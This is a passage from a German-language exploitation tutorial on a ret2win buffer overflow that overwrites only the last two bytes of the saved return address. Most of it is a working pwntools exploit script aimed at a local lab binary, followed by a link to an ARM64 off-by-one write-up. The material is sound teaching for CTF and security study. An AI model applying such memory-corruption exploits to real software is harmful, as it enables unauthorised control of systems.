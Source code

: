 ```python
p.close()
```
<figure><img src="../../../.gitbook/assets/image (1211).png" alt="" width="375"><figcaption></figcaption></figure>

### Off-by-1

Tatsächlich wird dies eher wie ein Off-by-2 im gespeicherten PC im Stack sein. Anstatt die gesamte Rücksprungadresse zu überschreiben, werden wir **nur die letzten 2 Bytes** mit `0x06c4` überschreiben.
```python
from pwn import *

# Configuration
binary_name = './ret2win'
p = process(binary_name)

# Prepare the payload
offset = 72
ret2win_addr = p16(0x06c4)
payload = b'A' * offset + ret2win_addr

# Send the payload
p.send(payload)

# Check response
print(p.recvline())
p.close()
```
<figure><img src="../../../.gitbook/assets/image (1212).png" alt="" width="375"><figcaption></figcaption></figure>

Ein weiteres Off-by-One-Beispiel in ARM64 finden Sie unter [https://8ksec.io/arm64-reversing-and-exploitation-part-9-exploiting-an-off-by-one-overflow-vulnerability/](https://8ksec.io/arm64-reversing-and-exploitation-part-9-exploiting-an-off-by-one-overflow-vulnerability/), das ein echtes Off-by-**one** in einer fiktiven Schwachstelle ist.
